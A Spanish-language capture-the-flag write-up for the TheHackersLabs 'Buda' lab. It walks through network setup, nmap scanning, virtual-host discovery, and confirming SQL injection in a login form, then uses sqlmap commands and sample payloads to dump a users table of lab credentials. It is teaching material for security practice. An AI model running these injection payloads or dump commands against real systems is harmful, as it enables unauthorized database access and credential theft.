



# Buda (TheHackersLabs) — Writeup EXTREMO centrado en **SQL Injection con sqlmap**

> **Enfoque intencional de este documento**
>
> Esta máquina tiene más recorrido del que vamos a cubrir aquí. Según la descripción, también tiene:
>
> - enumeración de `robots.txt`,
> - fuzzing de subdominios,
> - acceso FTP,
> - cracking de ZIP protegido,
> - port knocking,
> - y escalada por Docker.
>
> **Pero en este writeup NO vamos a completar la máquina entera.**
>
> El objetivo aquí es **practicar muy bien SQL Injection y sqlmap**, con calma, entendiendo:
>
> - cómo llegamos al formulario vulnerable,
> - cómo confirmamos la inyección manualmente,
> - qué nos está diciendo el error,
> - qué hace realmente `sqlmap`,
> - y cómo recorrer el embudo completo de extracción de datos.

---

# Índice

1. [Objetivo didáctico](#objetivo-didáctico)
2. [Problema inicial: la OVA falla en VMware](#problema-inicial-la-ova-falla-en-vmware)
3. [Conectar Kali en VMware con Buda en VirtualBox](#conectar-kali-en-vmware-con-buda-en-virtualbox)
4. [Verificar la IP de Kali y entender la red](#verificar-la-ip-de-kali-y-entender-la-red)
5. [Preparar la carpeta de trabajo](#preparar-la-carpeta-de-trabajo)
6. [Descubrimiento de hosts con Nmap](#descubrimiento-de-hosts-con-nmap)
7. [Identificación de la víctima por MAC / OUI](#identificación-de-la-víctima-por-mac--oui)
8. [Escaneo completo de puertos](#escaneo-completo-de-puertos)
9. [Interpretación de servicios: FTP y Apache](#interpretación-de-servicios-ftp-y-apache)
10. [La web por IP: por qué una Apache Default Page no significa “no hay nada”](#la-web-por-ip-por-qué-una-apache-default-page-no-significa-no-hay-nada)
11. [`/etc/hosts`, DNS local y virtual hosting](#etchosts-dns-local-y-virtual-hosting)
12. [`robots.txt`: qué es y por qué interesa tanto](#robotstxt-qué-es-y-por-qué-interesa-tanto)
13. [Llegar al entorno de desarrollo: `dev.budasec.thl`](#llegar-al-entorno-de-desarrollo-devbudasecthl)
14. [Confirmación manual de la SQLi con una comilla simple](#confirmación-manual-de-la-sqli-con-una-comilla-simple)
15. [Qué nos revela el error `mysqli->query()`](#qué-nos-revela-el-error-mysqliquery)
16. [Explicación profunda de cómo se rompe la query](#explicación-profunda-de-cómo-se-rompe-la-query)
17. [Qué petición HTTP existe realmente detrás del login](#qué-petición-http-existe-realmente-detrás-del-login)
18. [`sqlmap`: qué es, qué hace y qué no hace](#sqlmap-qué-es-qué-hace-y-qué-no-hace)
19. [Uso de `sqlmap --forms`: por qué aquí sí tiene sentido](#uso-de-sqlmap---forms-por-qué-aquí-sí-tiene-sentido)
20. [Enumeración de bases de datos con `--dbs`](#enumeración-de-bases-de-datos-con---dbs)
21. [Enumeración de tablas con `--tables`](#enumeración-de-tablas-con---tables)
22. [Enumeración de columnas con `--columns`](#enumeración-de-columnas-con---columns)
23. [Volcado de datos con `--dump`](#volcado-de-datos-con---dump)
24. [Análisis de credenciales obtenidas](#análisis-de-credenciales-obtenidas)
25. [Qué habría después, pero por qué aquí nos detenemos](#qué-habría-después-pero-por-qué-aquí-nos-detenemos)
26. [Resumen técnico completo](#resumen-técnico-completo)
27. [Comandos usados](#comandos-usados)

---

# Objetivo didáctico

Lo repito porque es importante: este writeup no está pensado para “terminar rápido una máquina”.  
Está pensado para que entiendas **de verdad** la parte de **inyección SQL**.

En una máquina así, mucha gente hace esto:

1. ve un formulario,
2. lanza `sqlmap`,
3. saca credenciales,
4. sigue adelante.

Eso sirve para “pasar” la máquina, pero **no para aprender bien**.

Aquí queremos algo mejor:

- entender por qué el formulario es vulnerable,
- entender cómo pensar antes de automatizar,
- y usar `sqlmap` como una herramienta seria, no como un botón mágico.

---

# Problema inicial: la OVA falla en VMware

Al intentar importar la máquina en VMware aparece el error de la **imagen 1**.


## Qué significa ese error

Los mensajes del estilo:

- `Unsupported element 'Caption'`
- `Unsupported element 'Description'`
- `Unsupported element 'InstanceId'`
- `Unsupported element 'ResourceType'`
- `Unsupported element 'VirtualQuantity'`

suelen indicar que el descriptor OVF/OVA contiene elementos XML que tu versión de VMware **no está interpretando correctamente**.

## Traducción práctica

Eso no significa automáticamente:

- que la máquina esté corrupta,
- ni que la descarga esté mal,
- ni que la VM sea inutilizable.

Lo que significa, normalmente, es:

> “VMware no puede importar esta OVA con esta estructura concreta.”

## Solución adoptada

Como ya hiciste en otros laboratorios:

- **víctima en VirtualBox**
- **Kali en VMware**

Eso obliga a resolver el problema de conectividad entre hipervisores distintos, y por eso la parte de red aquí es tan importante.

---

# Conectar Kali en VMware con Buda en VirtualBox

Como las dos máquinas están en hipervisores distintos, no basta con “encenderlas”.  
Hay que hacer que **compartan el mismo entorno de red**.

La forma más directa aquí es usar **adaptador puente** en ambas.

## Paso 1: configurar la víctima en VirtualBox en modo puente

En VirtualBox:

- importas la máquina,
- la seleccionas,
- `Configuración > Red > Adaptador 1`,
- eliges **Conectar a: Adaptador Puente**,
- y en **Nombre** seleccionas la interfaz de la **imagen 2**.


## Por qué elegir exactamente esa interfaz

Porque esa es la tarjeta de red física real del host con la que tu sistema Windows está saliendo a la red.

En tu caso aparece como algo tipo:

`MediaTek Wi‑Fi 6 MT7921 Wireless LAN Card`

Eso significa que:

- el host está conectado al Wi‑Fi mediante esa tarjeta,
- y si haces puente sobre ella,
- la VM se “pincha” directamente a esa red real.

## Qué hace realmente el modo puente

Esta parte quiero que la entiendas muy bien.

### NAT vs puente

## En NAT
La VM queda detrás de una red virtual privada del hipervisor.  
Sale a internet, sí, pero:

- su red suele ser privada,
- el host la traduce,
- y no siempre es visible como un equipo más de la red física.

## En puente
La VM se comporta como si fuera otro dispositivo real conectado a la misma red del host.

Eso significa que:

- el router real le puede dar una IP,
- aparece en el mismo segmento que otros dispositivos,
- y cualquier otro equipo en esa red puede verla.

### Traducción humana

Tu VM ya no está “escondida detrás del host”.

Está “de pie al lado del host” como otro equipo más.

---

## Paso 2: configurar VMware para que Kali también use esa misma interfaz física

En VMware:

- seleccionas la Kali,
- `Editar > Editor de red virtual`,
- en la VMnet correspondiente,
- la pones en **puente**,
- y seleccionas la **misma tarjeta física**, como en la **imagen 3**.


## Por qué esto importa tanto

Porque si VirtualBox hace puente sobre una interfaz y VMware sobre otra distinta, puedes acabar con dos VMs que, aunque ambas estén “en puente”, **no estén realmente en la misma red funcional**.

La idea es:

- Kali → puente sobre la Wi‑Fi real
- Buda → puente sobre la Wi‑Fi real

Así las dos quedan colgando del mismo segmento.

---

## Paso 3: poner la Kali en modo puente dentro de su configuración de red

En la Kali dentro de VMware:

- clic derecho sobre la VM,
- `Configuración`,
- `Adaptador de red`,
- `Conexión de red`,
- `Conexión en puente`

como en la **imagen 4**.


## Qué efecto tiene

Cuando cambias una VM de otro modo de red a puente:

- pierde momentáneamente la conectividad anterior,
- negocia de nuevo en la red real,
- y suele recibir una nueva IP mediante DHCP.

Por eso es normal que se “corte” un momento la red y luego cambie la IP.

---

# Verificar la IP de Kali y entender la red

En Kali ejecutas:

```bash
ip a
```

y te fijas en `eth0`, como en la **imagen 5**.



La línea importante es:

```bash
inet 192.168.1.35/24
```

## Qué significa exactamente

### `192.168.1.35`
Es la IP actual de tu Kali.

### `/24`
Es la notación CIDR.  
Equivale a máscara:

```bash
255.255.255.0
```

### Qué red implica eso

Que estás en la red:

```bash
192.168.1.0/24
```

### Qué suele implicar una red `/24`
Que los hosts posibles van, simplificando, desde:

```bash
192.168.1.1
```

hasta

```bash
192.168.1.254
```

---

# Preparar la carpeta de trabajo

```bash
cd ~/Desktop
cd HacktheLabs
mkdir Buda
cd Buda
```

Esto no es una técnica de explotación, pero sí una práctica muy recomendable.

## Por qué conviene hacerlo

Porque esta carpeta te servirá para guardar:

- `fullscan`
- notas
- capturas
- resultados de sqlmap
- volcados
- posibles credenciales
- scripts si los necesitaras
- y cualquier artefacto del ejercicio

Mantener una carpeta por máquina hace que luego no mezcles:

- resultados de una VM con otra,
- escaneos viejos,
- contraseñas,
- o evidencias.

---

# Descubrimiento de hosts con Nmap

Ahora hacemos el primer barrido de red.

## Comando

```bash
sudo nmap -n -sn 192.168.1.35/24
```

---

## Explicación detallada de las flags

### `sudo`
Aunque Nmap puede hacer algunas tareas sin privilegios, para descubrimiento de red y ciertos tipos de sondeo conviene usar `sudo`.

En red local, eso le permite trabajar de forma más completa y fiable.

### `-n`
Significa:

> no resuelvas DNS

Sin `-n`, Nmap puede intentar traducir IPs a nombres de host consultando DNS.

Eso:

- ralentiza,
- mete ruido,
- y aquí no aporta nada.

### `-sn`
Significa:

> host discovery only

Es decir:

- descubre quién está vivo,
- pero no escanea puertos todavía.

### `192.168.1.35/24`
Aunque pongas tu IP concreta con `/24`, lo que importa realmente es la red que define esa máscara:

```bash
192.168.1.0/24
```

---

## Resultado del descubrimiento

Aparecen múltiples IPs:

- router,
- dispositivos reales de la red,
- tu propia Kali,
- y una IP que destaca porque su MAC es de VirtualBox.

La línea importante es esta:

```text
Nmap scan report for 192.168.1.44
Host is up
MAC Address: 08:00:27:96:75:F1 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
```

---

# Identificación de la víctima por MAC / OUI

Aquí entra un concepto muy útil.

## Qué es una MAC
La MAC es una dirección de hardware de la interfaz de red.

## Qué es un OUI
Los primeros 3 bytes de una MAC forman el **OUI**:

**Organizationally Unique Identifier**

Ese prefijo identifica al fabricante.

## Ejemplos típicos

- `08:00:27` → VirtualBox
- `00:0C:29` → VMware
- `48:E7:DA` → AzureWave
- `A4:43:8C` → Arris

## Qué nos dice aquí

Como el prefijo es:

```text
08:00:27
```

y tú sabes que la víctima la levantaste en VirtualBox, lo razonable es concluir que:

```bash
192.168.1.44 = la víctima
```

---

# Escaneo completo de puertos

Ahora sí hacemos un escaneo serio.

## Comando

```bash
sudo nmap -p- --open -sCV -Pn -T5 -vvv -oN fullscan 192.168.1.44
```

---

## Explicación de cada flag

### `-p-`
Escanea todos los puertos TCP del 1 al 65535.

### `--open`
Muestra solo los abiertos.

### `-sC`
Lanza los scripts NSE por defecto.

### `-sV`
Intenta detectar la versión del servicio.

### `-Pn`
Asume que el host está vivo.

### `-T5`
Temporización agresiva y rápida. En laboratorio suele usarse bastante.

### `-vvv`
Más verbosidad.

### `-oN fullscan`
Guarda la salida en formato normal en un archivo llamado `fullscan`.

---

## Resultado relevante

```text
21/tcp open  ftp     vsftpd 3.0.5
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
```

---

# Interpretación de servicios: FTP y Apache

## Puerto 21: FTP

### Qué es FTP
**FTP** significa **File Transfer Protocol**.

Sirve para:

- subir archivos,
- descargar archivos,
- listar directorios,
- mover o borrar ficheros, según permisos.

Es un protocolo clásico y antiguo.

### Qué implica que esté abierto
Que la máquina acepta conexiones FTP desde la red.

Eso podría servir para:

- intercambio de ficheros,
- administración,
- reutilización de credenciales,
- o superficies posteriores.

Pero **no vamos a profundizar aquí**, porque este writeup está enfocado en SQLi.

---

## Puerto 80: HTTP con Apache

### Qué es Apache
Uno de los servidores web más usados.

### Qué nos dice Nmap

- Métodos permitidos:
  - `GET`
  - `POST`
  - `OPTIONS`
  - `HEAD`

Todo eso es normal.

### Título:
```text
Apache2 Ubuntu Default Page: It works
```

Esto es importante.  
No significa “no hay nada”.  
Solo significa que **el vhost por defecto** está mostrando la página de ejemplo.

---

# La web por IP: por qué una Apache Default Page no significa “no hay nada”

Abres:

```text
http://192.168.1.44
```

y ves la página por defecto, como en la **imagen 6**.



## Cómo debes interpretar esto

Mucha gente comete este error mental:

> “Si veo la Apache Default Page, entonces el servidor no tiene nada.”

Eso es falso.

Lo que sí significa es:

> “Si entro por IP, el servidor me está entregando el virtual host por defecto.”

Pero puede haber:

- otros virtual hosts,
- otros dominios,
- otros subdominios,
- otros sitios servidos por la misma IP.

Eso aquí es exactamente lo que ocurre.

---

# `/etc/hosts`, DNS local y virtual hosting

Esta parte es crítica y quiero que te quede clarísima.

## Qué problema tenemos

Sabemos que probablemente existe un dominio interno:

```text
budasec.thl
```

pero ese dominio no existe en Internet.

Entonces, si lo escribes tal cual en el navegador, tu sistema no sabe a qué IP ir.

## Qué hace `/etc/hosts`

Es una tabla local de resolución de nombres.

Si metes una línea como:

```bash
192.168.1.44 budasec.thl dev.budasec.thl
```

tu sistema entiende:

- `budasec.thl` → `192.168.1.44`
- `dev.budasec.thl` → `192.168.1.44`

sin consultar DNS externo.

## Por qué esto importa también a nivel HTTP

Además del tema DNS, hay otro punto aún más importante:

el servidor web suele mirar la cabecera:

```http
Host: budasec.thl
```

o

```http
Host: dev.budasec.thl
```

y en base a eso decide qué sitio servir.

## Traducción sencilla

Una misma IP puede alojar múltiples webs diferentes.

La IP es la misma, pero el contenido cambia según el **Host** que pides.

---

# `robots.txt`: qué es y por qué interesa tanto

Accedes a:

```text
http://192.168.1.44/robots.txt
```

y ves:

```text
User-agent: *
Allow: budasec.thl
```

## Qué es `robots.txt`
Es un archivo de texto que suelen colocar en la raíz del sitio web para orientar a los bots de búsqueda.

## Función oficial
Decirle a Google y otros rastreadores qué rutas deben o no deben explorar.

## Por qué es oro para pentesting
Porque es público y muchos admins meten pistas sin darse cuenta.

Aquí no te está enseñando una carpeta, sino un nombre de host:

```text
budasec.thl
```

Eso ya es una pista buenísima.

---

# Llegar al entorno de desarrollo: `dev.budasec.thl`

Después de añadir los hosts correctos, accedes a:

```text
http://dev.budasec.thl/
```

y te aparece el formulario de login de la **imagen 7**.



Aquí ya estamos en la superficie que nos interesa.

---

# Confirmación manual de la SQLi con una comilla simple

En el campo de usuario introduces:

```text
'
```

y lanzas el login.

## Resultado
Obtienes un error del tipo:

```text
mysqli->query() #1 {main} thrown in /var/www/html/xyprob/12356723/dev.php on line 28
```

Y eso es una señal muy fuerte.

---

# Qué nos revela el error `mysqli->query()`

Nos está diciendo varias cosas a la vez:

## 1. Backend probable
Que la aplicación usa:

- PHP
- `mysqli`
- y por tanto una base de datos MySQL o MariaDB

## 2. Ruta interna real del servidor
```text
/var/www/html/xyprob/12356723/dev.php
```

Eso te enseña:

- la estructura de directorios,
- el nombre del fichero vulnerable,
- y que estamos tocando un script concreto.

## 3. Entorno de desarrollo
El nombre `dev.php` y el hecho de que exponga errores detallados refuerzan que estamos en un panel o entorno mal endurecido.

---

# Explicación profunda de cómo se rompe la query

Supón que el código hace algo así:

```php
$user = $_POST['username'];
$pass = $_POST['password'];

$sql = "SELECT * FROM users WHERE username = '$user' AND password = '$pass'";
$result = $mysqli->query($sql);
```

## Caso normal
Si escribes:

- `username = pepe`
- `password = 1234`

la consulta queda:

```sql
SELECT * FROM users WHERE username = 'pepe' AND password = '1234';
```

y todo va bien.

## Caso con comilla simple
Si en `username` pones:

```text
'
```

la consulta queda algo como:

```sql
SELECT * FROM users WHERE username = ''' AND password = '1234';
```

## ¿Qué problema hay?

Las comillas ya no están correctamente balanceadas.

La base de datos intenta interpretar la cadena SQL y encuentra una sintaxis inválida.

## Qué demuestra eso
Que el valor del usuario está siendo **concatenado directamente** en la query.

Eso significa:

- no hay consulta preparada,
- no hay parametrización correcta,
- no hay saneado real del input.

Y ahí nace la SQLi.

---

# Qué petición HTTP existe realmente detrás del login

Aunque desde el navegador tú “veas un formulario”, lo que realmente viaja por la red es una petición HTTP.

Un ejemplo simplificado sería:

```http
POST / HTTP/1.1
Host: dev.budasec.thl
Content-Type: application/x-www-form-urlencoded

username=admin&password=1234
```

## Qué significa esto

### `POST / HTTP/1.1`
Método POST al recurso `/`.

### `Host: dev.budasec.thl`
Le dice al servidor qué virtual host quieres.

### `Content-Type: application/x-www-form-urlencoded`
Le dice que el cuerpo contiene pares `clave=valor` típicos de formularios HTML.

### Body
```text
username=admin&password=1234
```

Son los campos del login.

## Idea fundamental

`sqlmap` no “hackea páginas bonitas”.

`sqlmap` trabaja sobre **parámetros HTTP**.

Aquí, el punto de entrada no es un `?id=1` en la URL, sino un parámetro de formulario enviado por POST.

---

# `sqlmap`: qué es, qué hace y qué no hace

## Qué es
`sqlmap` es una herramienta de automatización de SQL Injection.

## Qué hace
Puede:

- detectar si un parámetro es vulnerable,
- identificar el tipo de base de datos,
- inferir versión,
- enumerar bases de datos,
- enumerar tablas,
- enumerar columnas,
- y extraer datos.

## Qué no hace
No sustituye entender la vulnerabilidad.

De hecho, funciona mucho mejor cuando tú ya sabes:

- qué parámetro te interesa,
- por qué sospechas de él,
- y qué objetivo quieres conseguir.

---

# Uso de `sqlmap --forms`: por qué aquí sí tiene sentido

El comando base que usas es:

```bash
sqlmap -u "http://dev.budasec.thl/" --forms --dbs --batch
```

## Desglose

### `-u "http://dev.budasec.thl/"`
Objetivo.

### `--forms`
Esto es importantísimo aquí.

#### Qué hace
Le dice a sqlmap:

> “Carga la página, parsea el HTML y busca formularios.”

#### Por qué aquí encaja perfecto
Porque el punto vulnerable no es algo tipo:

```text
?id=5
```

sino un formulario de login.

Si no le das `--forms`, sqlmap no tiene tan claro dónde debe mirar.

### `--dbs`
Una vez encuentre y confirme la SQLi, enumera las bases de datos.

### `--batch`
Responde automáticamente a las preguntas interactivas con las opciones por defecto.

---

# Qué hace `sqlmap` internamente cuando lo lanzas

A muy alto nivel, el flujo es algo parecido a esto:

1. descarga la página objetivo;
2. parsea el HTML;
3. encuentra el formulario;
4. identifica los campos del form;
5. envía pruebas sobre esos campos;
6. observa:
   - errores,
   - cambios de contenido,
   - tiempos de respuesta,
   - patrones de comportamiento;
7. decide si hay inyección;
8. si la hay, empieza la fase de enumeración.

## Tipos de SQLi que puede probar
Dependiendo del contexto, sqlmap puede probar:

- **boolean-based**
- **error-based**
- **time-based**
- **union-based**
- y otras variantes

## Ejemplos conceptuales de payloads
No significa que use exactamente solo estos, pero a nivel mental puedes imaginar pruebas como:

```text
' OR 1=1--
```

o

```text
' AND SLEEP(5)--
```

o payloads adaptados al backend detectado.

---

# Enumeración de bases de datos con `--dbs`

## Comando

```bash
sqlmap -u "http://dev.budasec.thl/" --forms --dbs --batch
```

## Resultado

```text
available databases [5]:
[*] buda
[*] information_schema
[*] mysql
[*] performance_schema
[*] sys
```

## Cuál nos interesa
La base lógica para el laboratorio es:

```text
buda
```

Las otras suelen ser bases del sistema o internas del motor.

## Qué está haciendo sqlmap por detrás
A nivel conceptual, está ejecutando o infiriendo consultas equivalentes a preguntar por los esquemas disponibles en el servidor.

---

# Enumeración de tablas con `--tables`

## Comando

```bash
sqlmap -u "http://dev.budasec.thl/" --forms -D "buda" --tables --batch
```

## Desglose

### `-D "buda"`
Selecciona la base de datos de trabajo.

### `--tables`
Pide listar las tablas de esa base de datos.

## Resultado

```text
Database: buda
[1 table]
+-------+
| users |
+-------+
```

Perfecto.

Ya sabemos que la base contiene una tabla llamada:

```text
users
```

y eso es justo lo que queríamos encontrar.

---

# Enumeración de columnas con `--columns`

## Comando

```bash
sqlmap -u "http://dev.budasec.thl/" --forms -D "buda" -T "users" --columns --batch
```

## Desglose

### `-T "users"`
Selecciona la tabla.

### `--columns`
Pide listar sus columnas.

## Resultado

```text
Database: buda
Table: users
[4 columns]
+-----------------+--------------+
| Column          | Type         |
+-----------------+--------------+
| hashed_password | varchar(255) |
| id              | int          |
| password        | varchar(100) |
| username        | varchar(50)  |
+-----------------+--------------+
```

## Interpretación

Tenemos:

- `id`
- `username`
- `password`
- `hashed_password`

### Por qué esto es grave
Porque sugiere que, además de almacenar un hash, también guardan contraseñas en claro o algo equivalente.

Eso ya es un problema serio de diseño.

---

# Volcado de datos con `--dump`

## Comando

```bash
sqlmap -u "http://dev.budasec.thl/" --forms -D "buda" -T "users" -C username,password --dump --batch
```

## Desglose

### `-C username,password`
Selecciona solo esas columnas.

### `--dump`
Pide el volcado de las filas reales.

## Resultado

```text
Database: buda
Table: users
[4 entries]
+----------+-----------------+
| username | password        |
+----------+-----------------+
| admin    | admin123        |
| ftpuser  | ftpu@sr123p@@s! |
| user1    | password1       |
| user2    | password2       |
+----------+-----------------+
```

---

# Análisis de credenciales obtenidas

## `admin : admin123`
Credencial administrativa clara y débil.

## `ftpuser : ftpu@sr123p@@s!`
Muy interesante porque apunta a posible movimiento lateral posterior a FTP u otros servicios.

## `user1 : password1`
## `user2 : password2`
Muestran una política de contraseñas pobrísima.

## Qué demuestra esto
No solo hay SQLi.

También hay:

- mala gestión de credenciales,
- contraseñas previsibles,
- y almacenamiento inseguro.

---

# Qué habría después, pero por qué aquí nos detenemos

En una resolución completa, a partir de aquí podrías probar:

- acceso FTP con `ftpuser`,
- reutilización de credenciales,
- vectores posteriores del laboratorio.

Pero aquí **nos detenemos a propósito**, porque el objetivo es **practicar SQLi con sqlmap** y no mezclar temas.

Esto es importante didácticamente.

Si mezclas:

- SQLi
- FTP
- ZIP
- knocking
- Docker

en el mismo writeup, acabas aprendiendo peor la parte concreta que querías reforzar.

---

# Resumen técnico completo

La cadena real que has seguido es esta:

1. resuelves el problema de virtualización híbrida,
2. haces que Kali y Buda compartan red,
3. verificas la IP de Kali,
4. descubres hosts con Nmap,
5. identificas la víctima por OUI de VirtualBox,
6. escaneas puertos,
7. observas Apache Default Page,
8. entiendes que puede haber virtual hosts,
9. lees `robots.txt`,
10. infieres `budasec.thl`,
11. llegas a `dev.budasec.thl`,
12. pruebas una comilla simple,
13. confirmas SQLi por error `mysqli->query()`,
14. usas `sqlmap --forms`,
15. enumeras bases de datos,
16. enumeras tablas,
17. enumeras columnas,
18. y haces dump de credenciales.

## La idea más importante de todo el writeup

**`sqlmap` no es el principio del proceso.**  
Es el acelerador de un análisis que tú ya empezaste manualmente.

Primero entiendes el contexto.  
Luego validas el comportamiento.  
Y solo después automatizas.

Ese es el orden correcto.

---

# Comandos usados

```bash
ip a

cd ~/Desktop
cd HacktheLabs
mkdir Buda
cd Buda

sudo nmap -n -sn 192.168.1.35/24

sudo nmap -p- --open -sCV -Pn -T5 -vvv -oN fullscan 192.168.1.44

sqlmap -u "http://dev.budasec.thl/" --forms --dbs --batch

sqlmap -u "http://dev.budasec.thl/" --forms -D "buda" --tables --batch

sqlmap -u "http://dev.budasec.thl/" --forms -D "buda" -T "users" --columns --batch

sqlmap -u "http://dev.budasec.thl/" --forms -D "buda" -T "users" -C username,password --dump --batch
```

---

# Cierre

Este laboratorio, enfocado solo en la parte de SQLi, es muy bueno para interiorizar una idea esencial:

> La inyección SQL no empieza con `sqlmap`.  
> Empieza cuando entiendes que el input del usuario está entrando de forma insegura en una consulta SQL.

Y justo después de eso, `sqlmap` deja de ser “magia” y pasa a ser lo que de verdad es:

**una herramienta brutal de automatización para un fallo que ya sabes interpretar.**

